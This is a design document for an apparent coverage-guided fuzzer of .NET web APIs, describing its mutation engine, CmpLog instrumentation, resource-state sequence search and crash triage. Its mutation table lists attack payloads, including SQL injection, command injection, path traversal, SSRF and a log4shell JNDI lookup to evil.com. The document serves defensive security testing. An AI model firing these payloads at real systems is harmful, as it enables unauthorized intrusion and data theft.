

# Void Engine Internals

This document covers the Go fuzzing engine (`src/void/internal/engine/`) itself: its component map,
mutation/coverage feedback loop, sequence and resource-graph search, crash triage,
and vulnerability oracles. It picks up exactly where
[ARCHITECTURE.md](overview.md) leaves off — that document covers everything
*before* the engine starts running (discovery, Docker build, instrumentation, SHM
sync, grammar generation); this one covers what happens once `void` is actually
fuzzing.

**→ [Back to README](../../README.md) · [Architecture (pipeline)](overview.md) · [Full Runbook](../getting-started/quickstart.md) · [Docs Index](../index.md)**

---

The production fuzzer is the Go runtime (`src/void/internal/engine/`). It implements coverage-guided mutation with structured epochs, a seed corpus, adaptive concurrency, and crash triage.

## Component Map

`go.mod` (module `void`, go 1.22) lives at **`src/void/`** — a self-contained Go module,
not the actual repo root — covering both directories below. There is no `main.go`/`go.mod`
directly under `src/void/internal/engine/` itself, nor at the repo root (an older layout
some other docs still reference; if you see `cd internal/engine/ && go build` or a
repo-root `go.mod` mentioned anywhere, it's stale). Go commands need either `cd src/void`
first or `go -C src/void ...` — see `Makefile`'s `build-void`/`test-go`/`lint-go` targets.

```
src/void/cmd/void/
└── main.go                CLI entrypoint: parses flags (internal/config), seeds RNG, runs the Fuzzer

src/void/internal/config/
├── flags.go               ~90 CLI flags -> Config struct
└── profiles.go            -profile fast|deep|security preset bundles

src/void/internal/engine/
├── fuzzer.go              Main lifecycle loop, epochs, and corpus scheduling
├── worker.go              Concurrent HTTP fuzzing loop and coverage attribution
├── coverage.go            SHM bitmap parsing and HTTP coverage reader
├── sequence.go            Stateful producer/consumer chain execution
├── store.go               Knowledge extraction, ID harvesting, and dedup
├── template.go            templates.export.json parsing and payload rendering
├── mutation_engine.go     MOpt-style mutation scheduler and weights
├── mutations.go           Concrete mutation categories (sqli, xss, etc)
├── body_schema.go         Typed request-body schema (BodyNode), decoded from body_schema
├── body_value.go          Disposable per-render concrete body tree (BodyValue)
├── body_build.go          Schema-correct "valid" body instantiation
├── body_mutate.go         10 structural body operators + sibling MOpt registry (-typed-body-mutation)
├── body_bind.go           Tenant-/path-aware producer-consumer binding for nested body fields
├── body_serialize.go      BodyValue -> JSON/form/multipart, immediately pre-send
├── cmplog.go              CmpLog/RedQueen IL-comparison operand harvesting (-cmplog)
├── constants.go           Constant/string dictionary extraction pool (Top-20+ #22)
├── crash.go               Crash deduplication, signature generation, JSONL logging
├── cluster.go             Root-cause clustering (many signatures → one bug)
├── oracle.go              BOLA/IDOR + auth-bypass + positive injection oracles
├── schema_oracle.go       Response-schema conformance oracle (-schema-conformance)
├── triage.go              Source-aware priority and crash route scoring
├── poc.go                 PoC shell scripts and timeline generation
├── report.go              Final JSON crash report and findings summary
├── sarif.go               SARIF 2.1.0 findings export (-sarif-file, opt-in)
├── minimize.go            Crash minimization (incl. typed body-tree minimization) and repro verification
├── identity.go            Auth identities, multi-identity scheduling, race probing
├── auth.go                JWT/header/cookie auth state and login fallback
├── ui.go                  Live terminal dashboard
├── utils.go               HTTP and string utility functions
└── types.go               Core data structures (Template, Config, WorkItem)
```

See [`docs/guides/typed-structural-mutation.md`](../guides/typed-structural-mutation.md) for
the `body_*.go` files' full design.

## CMPLOG-lite: 400-body mining (Top-20 #11)

`worker.go::recordClientErrorSample` — previously write-only (it only stored a truncated
sample per endpoint for the human-readable `client_error_samples` report field) — now
also calls `mineClientErrorFields(body)` on every 4xx response body. That function
parses, best-effort:
1. ASP.NET's `ValidationProblemDetails`/ModelState shape (`{"errors":{"Field":["msg"]}}`,
   or the flatter `{"Field":["msg"]}` some minimal-API validators emit directly), and
2. free-text enum/valid-value hints inside each message (`"must be one of [...]"`,
   `"valid values: ..."`), comma/pipe-split into individual candidates.

Extracted `(field, value)` pairs feed `RuntimeStore.addValue` — the exact mechanism
`sequence.go::learnFromResponse` already uses for successful 2xx bodies — so mined
values become available to `pickCustomPayloadValue`/`customPayloadCandidates`
(`store.go`) the same way any other harvested runtime value is, no new store API. A
body that doesn't match either shape yields an empty map, never an error; an unrelated
JSON 4xx body (e.g. `{"count":5}`) is defensively excluded from being mistaken for a
field→messages map.

## CmpLog/RedQueen via IL Comparison Instrumentation (Top-20+ #21)

CMPLOG-lite (above) mines values the server *tells* the fuzzer about, via 400
bodies. This is different: it recovers values the server never tells anyone —
constants baked directly into the target's own compiled comparison logic
(`if (code == "SUPER_SECRET_2026")`), the class of "magic value" check that no
OpenAPI spec, dictionary, or generic mutation could ever guess. It's the .NET
analog of AFL++'s CmpLog/RedQueen.

**Instrument time — `tools/dotnet/instrumentor/Program.cs::CmpLogInstrumentor`.** A second,
independent Cecil pass (own `Mono.Cecil` package reference; unrelated to
SharpFuzz's own `Fuzzer.Instrument` call, which is a self-contained black box this
project doesn't get to hook), run after SharpFuzz's coverage rewrite succeeds,
gated behind a new `--cmplog` CLI flag. It rewrites two comparison shapes so their
operand(s) are recorded immediately *before* the original comparison executes —
the target's own behavior is completely unchanged, this is purely an observer:

1. **String comparisons** — calls to `String.Equals`/`op_Equality` (static 2-arg
   and instance 1-arg overloads)/`StartsWith`/`EndsWith`/`Contains`, restricted to
   the plain `(string[, string])` overloads (a `StringComparison`/`CultureInfo`
   overload is skipped — this recorder only knows how to safely pop/replay exactly
   two string-typed stack values). Both operands are popped into temp locals via
   `stloc`/`stloc`, replayed once into `CmpLogProbe.RecordString(a, b)`, then
   replayed again unchanged immediately before the untouched original call.
2. **Integer literal-vs-compare sites** — an `ldc.i4`/`ldc.i8` immediately
   followed (skipping any `Nop`) by `ceq`/`beq`/`beq.s`/`bne.un`/`bne.un.s`: `dup`
   the constant, widen the duplicate to `int64` (`conv.i8` for the `i4` case),
   call `CmpLogProbe.RecordInt(v)`, leaving the original value untouched on the
   stack for the compare that follows.

Both transforms only ever *insert* instructions — they never remove, reorder, or
alter an existing one — so every existing branch target and exception-handler
region stays valid without offset recalculation (Cecil resolves branches by
`Instruction` object, not raw offset, until `AssemblyDefinition.Write()` runs). A
defensive check skips any call/`ldc` site that is itself a `TryStart`/`TryEnd`/
`HandlerStart`/`HandlerEnd`/`FilterStart` boundary instruction, so the pass can
never straddle an exception region. Verified end-to-end with a local Cecil
correctness harness (compile → instrument → run): 15/15 behavioral assertions
pass unchanged post-instrumentation, including three cases inside a live
try/catch/finally with an instrumented comparison throwing mid-`try` — the probe
fires with the correct operand and the `finally` still runs exactly once.

**Scope limits, stated plainly:** only the constant-*immediately-before*-the-compare
shape is caught — `x == CONST` is captured, `CONST == x` generally is not (the
`ldc` and the `ceq` aren't adjacent instructions in that IL shape), unless the
compiler happens to reorder. General relational compares (`clt`/`cgt`/`ble`/`bge`)
and switch-statement case values (both the sequential-`Equals`-chain and the
hash-jump-table forms the C# compiler emits for larger `switch`) are not
instrumented — safely intercepting those needs real stack-depth data-flow
analysis, which this pass deliberately does not attempt. `--cmplog` is only ever
passed in `--inject-mode hook` builds (`bin/fuzz-prep-multi.py`): the recorder calls
target `UpsideFuzz.Coverage.CmpLogProbe` by assembly name only (mirroring how the
coverage probes already resolve `SharpFuzz.Common.Trace` at runtime — see
`CoverageRuntime.Bootstrap`'s `AssemblyLoadContext.Default.Resolving` handler),
which only resolves when `DOTNET_STARTUP_HOOKS` actually loads that assembly; a
`--inject-mode source` build never does.

**Runtime — `CmpLogProbe`, alongside `CoverageRuntime` in the generated coverage
hook assembly.** Bounded (512 strings / 256 ints), deduped, thread-safe
(`ConcurrentQueue`/`ConcurrentDictionary` — concurrent requests hit instrumented
code from many threads), FIFO-evicted at capacity. Served over `GET /shm/cmplog`
(alongside the existing `/shm/create`/`/shm/coverage`/`/shm/reset`/`/shm/health`
control endpoints); counts also surface in `/shm/health` (`cmplog_strings`/
`cmplog_ints`) for diagnostics. A target built without `--cmplog`, or running in
`--inject-mode source`, simply 404s here — the engine treats that as "nothing
available," not an error.

**Engine — `src/void/internal/engine/cmplog.go`.** `Fuzzer.pollCmpLogIfDue` polls `/shm/cmplog`
from `mainLoop`'s existing per-tick body, throttled independently to once every
`-cmplog-interval` seconds (default 3s) since it's a network round trip, not a
local check. Harvested values land in a single process-wide `CmpLogPool` (mirrors
`coverage.go`'s package-level `countClass` — there is exactly one `Fuzzer` per
process) that `mutateStringCategorized`/`mutateInt` (`mutation_engine.go`) sample
from as an additional candidate source, blended in the same additive style as
Top-20 #14's field-constraint boundaries: a probabilistic splice for strings
(`mcat_cmplog` category, 15% chance ahead of the generic pool), a union member for
ints (alongside the existing hardcoded/hint-derived candidates). Toggle with
`-cmplog` (default `true`); it's a comparison-feedback source, not a per-field one
— harvested values are spliced into *any* string/int field, not routed to the
specific field whose comparison produced them. A typed request-body model now
exists and reaches mutation (`docs/guides/typed-structural-mutation.md`), but
CmpLog's own harvested pool isn't wired through it to a specific schema
position yet — still a real, open gap, just no longer blocked on the typed
model itself.

## Constant/String Dictionary Extraction (Top-20+ #22)

CmpLog (above) recovers magic values *observed live* as comparisons execute. This is
the static counterpart: `tools/dotnet/instrumentor/Program.cs::ConstantExtractor` is a **read-only**
Cecil pass over `Ldstr`/`Ldc_I4`/`Ldc_I4_S`/`Ldc_I8` operands in every instrumented
type's IL, harvesting literals the target's own source declares (`"SUMMER2026"`,
`if (retries == 7)`) without needing any traffic to reach them first — the .NET analog
of AFL's `-x` auto-dictionary extraction. Unconditional (no CLI flag): it never
modifies IL, so there's no correctness or perf reason to ever skip it.

**Ordering matters.** It runs *before* `SharpFuzz.Fuzzer.Instrument`, not after like
CmpLog. SharpFuzz's own coverage rewrite injects its own `Ldc_I4` constants
(per-branch-site bitmap indices) into every method it touches; running the extractor
afterward pulls those in too, indistinguishable from real business-logic literals in
the same IL stream — confirmed empirically against a two-constant test fixture, where
running the pass after SharpFuzz's rewrite added ~16 extra pseudo-random ints that
were coverage noise, not target code. Capped at 512 strings (≤256 chars each) / 256
ints per assembly, deduped, best-effort (a failure here never fails the build).

Results are appended to `.upsidefuzz_constants.jsonl` next to the DLL (one line per
assembly, same convention as Top-20 #17's `.upsidefuzz_instrumented.jsonl`). Both
generated coverage runtimes (`_COVERAGE_HOOK_CS`/hook mode,
`generate_multi_coverage_helper`/source mode in `bin/fuzz-prep-multi.py`) read it once at
startup (`ResolveConstants`, cached) and serve it over `GET /shm/constants` — always
200 with possibly-empty arrays, since extraction is unconditional. `src/void/internal/engine/constants.go`
fetches it **once** at fuzzer startup (not polled repeatedly like CmpLog — these are
static, extracted at build time, never change mid-run) into a process-wide
`ConstantsPool`, sampled by `mutateStringCategorized` (`mcat_constants`, 12% chance)
and blended into `mutateInt`'s candidate union — the same additive splice style CmpLog
already established.

## Response-Schema Conformance Oracle (Top-20+ #23)

`tools/grammar/grammarc/oas.py` already parses and resolves every operation's OpenAPI response
schema; nothing validated live response bodies against it until now. `Operation`
gained `response_schemas` (every declared 2xx status, not just the first —
`response_schema`/`response_schema_ref_name` keep their original first-found meaning
for existing producer-field-inference callers). `emit_templates.py::build_template`
flattens each status's schema via the same `_collect_schema_fields` already used for
request bodies, emitting `templates.export.json`'s `response_schemas: {status:
{dotted_field_name: declared_type}}` — omitted entirely when an operation declares no
response schema, so old-shaped grammars are byte-identical.

`src/void/internal/engine/schema_oracle.go::checkSchemaConformance` runs on every organic (non-probe)
2xx response, gated by `-schema-conformance` (default `true`). It flattens the live
JSON body into the same dotted-path shape (`flattenJSONForSchemaCheck`, mirroring
`_collect_schema_fields`'s quirks exactly — an intermediate object gets an entry for
itself *and* is recursed into; an array shares its own prefix with its item schema,
no index component — verified this parity directly against `tools/grammar/grammarc/`'s own test
fixtures) and compares against the declared field map for the observed status (falling
back to the sole declared 2xx schema when the exact status isn't documented but only
one exists). Two distinct finding classes, deliberately separated per explicit design
intent rather than folded into one generic bucket:

- **Undeclared fields** — a key present in the live response but absent from the
  schema. The priority case: it means a client can read/interact with something the
  spec never documented. A field whose name matches a small sensitive-name list
  (`password`, `secret`, `token`, `hash`, `ssn`, `apikey`, ...) is tagged
  `schema_undeclared_sensitive_field` (`likely_vuln`, severity 7); anything else is
  `schema_undeclared_field` (`needs_review`, severity 3).
- **Type drift** — a declared field whose observed JSON type doesn't match
  (`schema_type_mismatch`, `needs_review`, severity 2, deliberately low-confidence).
  JSON `null` is always accepted regardless of declared type — nullable-by-convention
  is too common to flag without a predictable false-positive flood.

Conservative by design: silent (no finding) on any endpoint whose grammar declares no
response schema at all — there's no ground truth to compare against, and this project
already learned the cost of inventing findings from weak signal the hard way (a real,
previously-presented-as-genuine `ssrf_metadata_reflected` false positive on pure
request-echo, found and fixed by stripping known payload strings before matching).
All three reason tags are in `sarif.go`'s `sarifStrongReasonTags`
allowlist from day one, so they get their own distinct SARIF rule IDs rather than
collapsing into a generic classification.

## State-Reward Sequence Search (Top-20 #12)

`sequence.go::sequenceStateSignature` computes a coarse workflow-*shape*
signature for a `SequenceState`: the ordered `(method, normalized-path,
status-class)` triples of its `History`, where `normalizeEndpointPath`
collapses concrete resource IDs to a route template and `statusClass` buckets
status codes into 2xx/3xx/4xx/5xx. Two sequences that reach the same shape via
different concrete IDs or payloads are the same "state" for reward purposes —
deliberately coarse (no explicit resource-lifecycle model), but enough to
distinguish *genuinely new exploration* from re-treading a known workflow,
which the coverage bitmap alone cannot: a 3rd identical `GET` after a `POST`
looks the same to the bitmap as the 1st, but carries no new information for
the sequence search.

`enqueueSequenceFollowups` tracks every signature seen this run
(`f.seenStateSigs`, a plain map — sequence processing runs entirely on the
single main-loop goroutine that drains `resultCh`, so no locking is needed).
Reaching a never-seen signature:
- Awards a state-novelty energy bonus (`stateNoveltyBonus = 5.0`, chosen to be
  comparable to a solid multi-edge `CoverageDelta` hit) to the sequence's
  `Energy`, which feeds `maybePersistSequence`'s "did this sequence produce
  real value" gate.
- Widens that step's fanout by one extra branch (capped at `len(followups)`),
  giving newly-discovered states one more unit of search budget than a
  re-tread of a known shape gets.

`maybePersistSequence` additionally dedups the on-disk workflow report
(`persistWorkflow`, JSON+curl repro scripts) by **final** shape
(`f.persistedWorkflowSigs`): two sequences reaching the identical shape via
different concrete data are only written to disk once, closing the "no dedup
of equivalent workflows" gap. `printFinalReport` surfaces both counters:
`Sequence engine: new_states_found=N unique_workflows_persisted=M`.

This is explicitly a *coarse* state-reward mechanism, not the full typed
state-graph / coverage-directed-fanout search DeepREST/EvoMaster implement.
The typed resource-lifecycle model and generalized extraction pipeline
described in the next section are layered directly on top of it (both
mechanisms run together; the shape signature above is not replaced) and close
a real, previously-open part of that gap — see
`docs/research/design-notes/resource-state-graph-plan.md`/`resource-state-graph-report.md` for the
full design and measured results, and `ARCHITECTURE_REVIEW.md` §5 for what
still remains open (a full learned state-space search, general composite-key
synthesis).

## Typed Resource State Graph & Generalized Extraction (`resource_graph.go`, `resource_extraction.go`, `resource_scheduling.go`)

Layered on top of the shape-signature mechanism above, `enqueueSequenceFollowups`
also maintains a bounded, typed **resource-lifecycle graph** (`ResourceGraph`,
`resource_graph.go`) — replacing `extractEntityIDs`'s fixed
`id`/`Id`/`data[].id`/Location-last-segment field-name list with a layered
extraction pipeline (`resource_extraction.go`) that finds candidate resource
references by *structure* and *value shape*, not primarily by field name:



Concretely:

- **Structural extraction** reuses the shape-detection regexes this codebase
  already has for BOLA/minimize purposes (`reUUIDLike`/`reHexLong`/
  `reBizIDLike`/`reAllDigits`, `utils.go`) so a GUID under `reference`, a slug
  under `slug`, or a domain-specific field like `resourceRef` (zero `"id"`
  substring) are all extractable, corroborated by a name hint when one exists
  but never gated on one.
- **Header, HAL, and JSON:API extraction** parse `Location`/`Content-Location`/
  `Link` headers, HAL `_links.<rel>.href` (single or array form), and JSON:API
  `data.type`/`id` + `relationships.<rel>.data` structurally.
- **Route-template matching** (`matchRouteTemplateCandidates`) matches any URI
  found above — *and the current request's own path* (needed for e.g. a
  `DELETE` returning an empty 204 body, whose target identity exists only in
  the request path, not the response) — against every known template's
  already-shape-normalized route (`f.meta[tid].Norm`, from
  `normalizeEndpointPath`), extracting a **typed candidate per placeholder
  position** from the *preceding static segment*, not just the URI's final
  segment — so `/organizations/{orgId}/projects/{projectSlug}` yields two
  distinct typed candidates (`organization`, `project`), and consecutive
  candidates from one multi-segment match are linked parent→child in the
  graph.
- Every candidate carries **provenance and a confidence score** (`Strategy`,
  `JSONPath`/`HeaderName`/`LinkRelation`, `Confidence`) — nothing is silently
  assumed to be an identifier; a `-resource-graph-min-confidence` floor gates
  what actually enters the graph.

**Lifecycle** (`LifecycleState`: `Unknown/Discovered/Created/Readable/Modified/
Deleted/Invalidated/FailedCreation/FailedModification/FailedDeletion/Stale`) is
derived from a *combination* of the request method, the response status class,
and the resource's own *prior* recorded state (`deriveLifecycleTransition`,
`resource_scheduling.go`) — e.g. a `GET` immediately following a `Deleted`
state that returns 404 confirms the deletion (`Deleted`, `valid`); the same
`GET` returning 200 is a `Stale`, `invalid` observation; a `PUT`/`PATCH` that
"succeeds" against a `Deleted` resource is `Invalidated`, `invalid`. Every
transition is recorded (ring-bounded) with its `(from, to, consumerOp)`
signature checked for novelty — reaching a never-seen transition earns the same
kind of fanout-widening bonus the shape signature above already does.

**Coverage-directed scheduling** (`scoreConsumer`/`rankConsumersCoverageDirected`,
`resource_scheduling.go`) replaces `findFollowups`'s purely-static
`followupPriority` sort with a blended score: the static verb-affinity table as
one input (down-weighted, not removed), a large bonus for a consumer template
never yet reached via a sequence follow-up, the consumer's own endpoint's
*historical coverage yield* (`f.endpointStats[...].NewEdges` — already tracked
for an unrelated purpose, reused here rather than duplicating tracking), and a
penalty scaled by recent consecutive failures at that consumer. A bounded,
seeded-deterministic epsilon-exploration term (`-resource-graph-explore-rate`)
promotes a lower-scored candidate occasionally so nothing is *permanently*
starved. `-resource-graph=false` disables all of the above and reproduces the
exact prior static-sort ordering and name-only extraction, for rollback or
comparison.

**Deliberate invalid-transition exploration** (Phase 7 of the design):
`enqueueSequenceFollowups` will, with probability
`-resource-graph-stale-explore-prob`, deliberately bind a follow-up request to
a resource already known to be `Deleted`/`Invalidated` (via
`findCompatibleResources`) instead of a freshly-created one — the concrete
mechanism that produces `create → delete → read`, `update-after-delete`, and
similar workflows deliberately, rather than only ever continuing a valid one.

See `docs/research/design-notes/resource-state-graph-plan.md` for the full design rationale and
`docs/research/design-notes/resource-state-graph-report.md` for measured results (on a representative
7-body corpus, the old pipeline found 1 candidate total; the new pipeline
found 11). See `docs/architecture/stateful-fuzzing.md` for how this fits into the
broader stateful-fuzzing architecture (typed resource model → valid-workflow
planning → adversarial branching → oracles/repro), including tenant-scoped
substitution, producer→consumer binding records, and what's still open.

**Value substitution is graph-aware, not just consumer scheduling** (2026-07-28
follow-up): `pickFollowupPathValue` prefers a resource-graph-tracked, still-alive
instance of the consumer's expected resource type over the old id-name-centric
extraction's first hit when filling a follow-up's path placeholder; body/query
fields get the same treatment via `pickCustomPayloadValueGraphBiased`
(`-resource-graph-value-bias-weight`). Previously the graph only influenced
*which* consumer template got called next, never *which concrete value* was
plugged into it — see `docs/research/design-notes/resource-state-graph-report.md`'s "Follow-up pass"
section for the live-run findings that surfaced this and the four related
fixes (dedup real-ID preference, a lowered persistence bar for genuine chains,
crash-to-sequence linkage, and stop-reason counters).

## Self-verifying, fail-closed instrumentation (Top-20 #4)

`coverage.go::checkCoverageHealth` runs once, right after templates are loaded
(`fuzzer.go::Run`, before the main epoch loop starts), and by default refuses
to start a run whose instrumentation looks broken rather than silently
fuzzing blind for the whole time budget:

1. **Fetch `/shm/health`.** If the endpoint is unreachable, or `shm_bound` is
   `false` (the coverage pointer was never bound at all), that's an immediate
   fail — there's no plumbing to verify further.
2. **Send a real warm-up probe.** Up to 3 templates are rendered unmutated
   (`renderTemplate(tid, "none", 0, -1)`) and sent for real
   (`sendOne`) — this deliberately reuses the exact same request-building path
   the Baseline epoch uses moments later, not a synthetic health-check
   request.
3. **Check whether the shared bitmap actually moved.** `coverage.GetEdges()`
   before vs. after the probe is the only architecturally honest signal
   available: SharpFuzz uses one flat shared bitmap with hashed offsets and no
   per-assembly attribution, so there is no way to ask ".NET side, did
   assembly X specifically get instrumented" — the `Trace.SharedMem` type
   these probes bind to lives only in `SharpFuzz.Common.dll`, never in the
   app's own IL-rewritten assemblies. If edges are still flat despite
   `shm_bound=true` (a target that is reachable, responds normally to every
   request, and even reports app assemblies loaded — but was never actually
   IL-rewritten, e.g. wrong image, wrong `--src`, or a namespace excluded by
   `--exclude-namespaces`), the run is refused.

By default this is a hard failure (`run failed: coverage instrumentation
degraded: ...`, non-zero exit). Pass `-allow-degraded-coverage` to downgrade
it to a warning and continue anyway (not recommended — only useful for
debugging the instrumentation pipeline itself). This was validated against a
real design mistake: an earlier draft tried to compute an "ok"/"degraded"
verdict on the .NET side by checking whether each app assembly *itself*
defined the `SharpFuzz.Common.Trace` type — which is never true by
construction, so it flagged every healthy target as degraded. The
`fixtures/planted-bug-api/` E2E run (`scripts/e2e/e2e-test.sh`, Top-20 #7) caught
this before it shipped, which is exactly the kind of regression that fixture
exists to catch.

## Epoch Architecture

The time budget is divided into four epochs with automatic transitions:

```
Time Budget
|------+--------+------------------------+-------------|
|  5%  |  30%   |          50%           |    15%      |
| Base |  Det   |         Havoc          |  Splicing   |
| line |        |   (depth escalation)   | (cross-seed)|
```

| Epoch | Budget | Description |
|-------|--------|-------------|
| **Baseline** | 5% | Send every template **unmutated**. Populates seed corpus. The maximum coverage reached at the end of this epoch is saved as the `coverage_baseline_ceiling` to act as the denominator for saturation (rather than the raw bitmap capacity). |
| **Deterministic** | 30% | Pick seed by energy, apply **one mutation** per field. Systematic, methodical exploration. |
| **Havoc** | 50% | Pick seed, apply **1-4 stacked mutations**. Depth starts at 1, escalates on coverage stall. |
| **Splicing** | 15% | Pick **two** seeds, use one's template + havoc mutations. Cross-pollinates payloads. |

## Mutation Engine (MOpt-Style Weighted Categories)

Mutations are organized into categories with adaptive weights — categories that discover more coverage edges get higher selection probability:

| Category | Weight | Example Payloads |
|----------|--------|-----------------|
| `boundary` | 1.0 | `""`, `null`, `NaN`, `Infinity` |
| `overflow` | 1.0 | `AAA...` × 100, 1024, 5000, 10000 |
| `sqli` | 1.5 | `' OR '1'='1`, `'; DROP TABLE--`, UNION SELECTs |
| `xss` | 1.5 | `<script>alert(1)`, SVG/img onload, JS proto |
| `cmdi` | 1.5 | `; id`, `` `id` ``, `$(id)` |
| `path_traversal` | 1.5 | `../../../etc/passwd`, encoded variants |
| `ssrf` | 1.5 | AWS/GCP metadata URLs, `file:///`, `dict://` |
| `ssti` | 1.5 | `{{7*7}}`, `${7*7}`, `#{7*7}` |
| `open_redirect` | 1.0 | `//evil.com`, `\\/evil.com` |
| `crlf` | 1.0 | `\r\nX-Injected: pwned` |
| `log4shell` | 1.0 | `${jndi:ldap://evil.com/x}` |
| `nosqli` | 1.0 | `{"$gt":""}`, `{"$where":"sleep(5000)"}` |
| `ldap` | 1.0 | `*)(uid=*))(|(uid=*` |
| `xxe` | 1.0 | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>` |
| `unicode` | 1.0 | Zero-width chars, homoglyphs, BOM, RTL |
| `json` | 1.0 | Mass assignment, deep nesting, array overflow, .NET type confusion |

> **Mutation Stacking:** During the `Havoc` and `Splicing` epochs, the engine dynamically chains 2 to 4 mutations together on a single payload. For example, applying `json_dotnet_deser` (injecting `$type` for type confusion) followed by `json_deep_nest` (wrapping the newly injected `$type` in 100 levels of nested dictionaries) allows the fuzzer to organically synthesize highly complex exploits that would be impossible to hardcode in a static dictionary.

The `json` category above is the generic, schema-blind JSON byte/key manipulation available
on every template regardless of grammar. For templates whose grammar carries a `body_schema`
(current `tools/grammar/grammarc/`), a **separate, sibling MOpt registry** — 10 structural
operators (`mcat_struct_*` labels), each targeting the real object/array/`oneOf` tree instead
of flattened bytes — runs alongside it, gated by `-typed-body-mutation` (default on). It's a
distinct registry rather than an addition to the table above specifically so an ordinary
string-segment mutation can never accidentally draw a structural category with no string
payload pool to sample from. See [`docs/guides/typed-structural-mutation.md`](../guides/typed-structural-mutation.md).

## Dynamic Mutation Weights (MOpt Feedback Loop)
The engine does not just randomly pick mutations; it implements an MOpt-style scheduler. Every time a mutation category (e.g., `json` or `sqli`) discovers a **new coverage edge** (verified via the SHM bitmap), its `hitRate` increases.
- **Weight update formula:** `weight = 1.0 + (hitRate × 4.0)` (scaling up to a maximum 5× multiplier).
This means that if the target application is heavily vulnerable to JSON manipulations but immune to SQLi, the engine will dynamically shift its statistical probability to fire significantly more JSON payloads over time. The sibling structural-body registry above uses the identical weight-update formula and feedback loop, independently.

## Seed Corpus & Energy Scheduling

A **seed** = saved (template + rendered payload) pair. Corpus = all seeds.

**Lifecycle & Energy Calculation:**
1. **Baseline** → unmutated renderings populate initial corpus
2. **Growth** → mutated requests that find new edges become new seeds
3. **Surprise Factor** → When a heavily-fuzzed endpoint (e.g., hit 10,000 times) suddenly yields a new edge, the assigned energy scales logarithmically: `1.0 + Log2(Requests)`. If it is the first new edge in a long time, the multiplier is multiplied by `3.0`. This heavily favors deep, rare business logic transitions over shallow API surface mapping.
4. **Selection** → Fenwick tree weighted random by **energy**
5. **Boosting** → +5 energy per new edge discovered by a seed's mutations
6. **Decay & Minimization** → 0.5% energy decay per pick (`Energy * 0.995`) prevents starvation and local maximum traps. When the corpus exceeds 500 items, exhausted seeds are pruned to maintain Fenwick tree efficiency.

## Coverage-Guided Loop

```
for each batch (N = concurrency):
    before_edges = read_coverage()    ← mmap or HTTP
    tasks = [send_request(r) for r in batch]
    results = await all tasks         ← parallel HTTP goroutines
    after_edges = read_coverage()
    batch_delta = after_edges - before_edges

    if batch_delta > 0:
        → Save high-delta requests as new seeds
        → Boost energy of contributing seeds
        → Reset stall counter
    else:
        → Increment stall counter
        → After N stalls: increase havoc depth
```

## Coverage Reading Modes

| Mode | How | Overhead |
|------|-----|----------|
| **HTTP** (default) | `GET /shm/coverage` — one HTTP round-trip per `-coverage-interval` requests; returns bucketed distinct-class count | Low (~1ms) |
| **Direct SHM** (`-direct-shm`) | `mmap.read(bitmap)` on `/coverage_shm/bitmap`; Go side runs its own bucketed virgin-map scan (`countClass`) | Near-zero |
| **Per-request header** | `X-Coverage-Delta` = buckets this request first discovered (single-scan, first-observer-wins) injected by middleware | One bitmap pass per request (no extra round-trip) |

## Advanced Features

| Feature | Description |
|---------|-------------|
| **Crash triage** | Re-probes 5xx with same payload; calculates Triage Score (detects layer: pre-auth crashes like deserialization are capped at `needs_review`); generates curl PoC |
| **Crash minimization** | Binary search through request payload removing fields until crash fails to repro |
| **Race condition probing** | Sends `-race-burst` parallel identical requests to probe TOCTOU conditions |
| **Multi-identity** | Rotates through multiple auth tokens for authorization bypass testing |
| **Anti-forgery tokens** | Discovers HTML `<input>` token fields, pools and rotates them automatically |
| **Source-aware priority** | Boosts endpoints backed by detected business logic files from `-src` |
| **Adaptive concurrency** | PID-style controller adjusts goroutine count based on error rate |
| **Sequence fanout** | Builds producer→consumer chains using runtime-extracted response IDs |

## Triage Scoring System
UpsideFuzz assigns a heuristic **Triage Score (0.0 to 10.0)** to every discovered crash to filter noise and prioritize critical vulnerabilities.

1. **Base Score (+4.0):** Automatically assigned for any `500 Internal Server Error`.
2. **Dev Stack Leak (+1.5):** Added if the response body contains developer stack traces (e.g., `stack trace`, `exception:`).
3. **Backend Exception (+1.6):** Added if the body reveals critical backend failures (e.g., `sql`, `deadlock`, `nullreferenceexception`).
4. **Sensitive Path (Up to +1.1):** Boosts crashes on high-value endpoints (e.g., `/admin`, `/auth`) via `sensitivePathScore`.
5. **Stateful Trigger (+0.9):** Added if the crash was triggered by a complex Sequence Engine mutation (indicating deep business logic failure).
6. **Penalties:**
   - `-1.5` for crashes on purely synthetic/non-existent paths (`/api/fuzzstring`).
   - `-2.0` for generic content-type mismatch noise.

**Classification Labels (honest tiers):**
A `likely_vuln*` label **requires a concrete exploitation signal** — a bare 500 never earns it.
- **`likely_vuln_high` / `likely_vuln`**: An exploitation oracle fired (see below) — BOLA/IDOR, broken auth, time-based SQLi, evaluated SSTI, reflected XSS, file read, or SSRF.
- **`confirmed_unhandled_exception`** (score `>= 6.0`, no exploit signal): Reproducible 500 with a backend stack trace — a robustness/DoS bug, *not* a proven vulnerability.
- **`needs_review`** (score `>= 4.0`): A 500 that could not be attributed. Malformed-input parse exceptions (bad GUID/base64) are down-ranked into this tier so they stop masquerading as real code bugs.
- **`target_misconfiguration`**: DI/service-resolution failure (e.g. an unregistered service) — a build/config artifact of the instrumented image, excluded from the vulnerability count.
- **`noise`** (`< 4.0`): Filtered.

## Root-Cause Clustering (`cluster.go`)
The per-crash signature folds in path and mutation, so one bug reached from many routes/payloads yields many signatures — massively over-counting distinct bugs (a real run produced 933 "unique" crashes for ~5 actual bugs). `cluster.go` adds a **ClusterKey** that groups crashes by root cause: the normalized backend exception message plus the first *application* stack frame (framework frames skipped). When no exception detail is available (production mode), it falls back to a coarsened `(method, status, path-template)` key. The report exposes `distinct_root_causes` and a `root_cause_clusters` roll-up — the honest "how many real bugs" number.

